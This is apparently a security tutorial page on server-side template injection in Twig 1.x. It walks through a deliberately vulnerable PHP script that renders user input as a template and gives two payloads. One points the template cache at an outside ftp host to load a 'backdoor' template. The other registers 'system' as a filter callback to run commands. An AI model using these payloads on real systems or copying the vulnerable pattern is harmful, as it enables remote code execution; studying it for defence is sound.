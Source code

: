 ## Twig 1.x
> The test code is as follows

```php
<?php

include __DIR__.'/vendor/twig/twig/lib/Twig/Autoloader.php';
Twig_Autoloader::register();

$loader = new Twig_Loader_String();
$twig = new Twig_Environment($loader);
echo $twig->render($_GET['name']);
?>
```

> There are three global variables in Twig 1.x
```php
_self: Reference the instance of the current template
_context: Reference the current context
_charset: Reference the current character set
```

> The corresponding code is

```php
protected $specialVars = [
        '_self' => '$this',
        '_context' => '$context',
        '_charset' => '$this->env->getCharset()',
    ];
```
> This is mainly to use the `_self` variable, which will return the current `\Twig\Template` instance and provide the `env` attribute pointing to `Twig_Environment`, so that you can continue to call other methods in `Twig_Environment` to perform SSTI
> For example, the following Payload can call the `setCache` method to change the path of Twig loading PHP files. When the `allow_url_include` is enabled, you can change the path to achieve remote file inclusion by changing the path.

```php
{{_self.env.setCache("ftp://attackTarget:1234")}}{{_self.env.loadTemplate("backdoor")}}
```

> There is also the `call_user_func` method in the getFilter method. Payload: `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("calc.exe")}}` (However, after Twig2.x and Twig3.x, the effect of `_self` has changed and can only return the current instance name string, so this Payload is only applicable to Twig1.x)

```php
public function getFilter($name)
    {
        if (null === $this->filters) {
            $this->loadFilters();
        }

        if (isset($this->filters[$name])) {
            return $this->filters[$name];
        }

        foreach ($this->filterCallbacks as $callback) {
            if (false !== $filter = call_user_func($callback, $name)) {
                return $filter;
            }
        }

        return false;
    }
```
